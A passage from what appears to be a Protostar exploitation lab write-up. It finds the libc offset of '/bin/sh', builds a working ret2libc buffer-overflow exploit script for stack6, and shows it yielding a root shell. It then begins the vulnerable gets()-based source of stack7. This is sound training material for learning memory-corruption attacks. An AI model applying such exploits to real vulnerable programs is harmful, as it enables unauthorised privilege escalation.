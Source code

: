 Now that we know where libc starts at address `0xb7e97000`. Since `/bin/sh` is a string on in libc we can find the offset from the start of the file. In order to do this we can use the `-t x` to display the the offset in hex.

```shell
user@protostar:/opt/protostar/bin$ strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh
 11f3bf /bin/sh
```

We can see that the offset is at `0x11f3bf` we can find the exact offset in memory since we know the base address is `0xb7e97000`.

```python
>>> hex(0xb7e97000 + 0x11f3bf)
'0xb7fb63bf'
```

If we go back into GDB we can verify this:

```shell
(gdb) x/s 0xb7fb63bf
0xb7fb63bf:  "/bin/sh"
```
The final exploit script is: 

```python
import struct
offset = "A"*80
system = struct.pack("I", 0xb7ecffb0);
shell = struct.pack("I", 0xb7fb63bf);
print offset + system + 'AAAA' + shell 
```

```shell
user@protostar:/opt/protostar/bin$ python /tmp/exploit6.py > /tmp/txt2
user@protostar:/opt/protostar/bin$ (cat /tmp/txt2; cat) | ./stack6   
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAAAAAAA����AAAA�c��
whoami
root
```

## Stack Seven

### Source Code
```c++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
```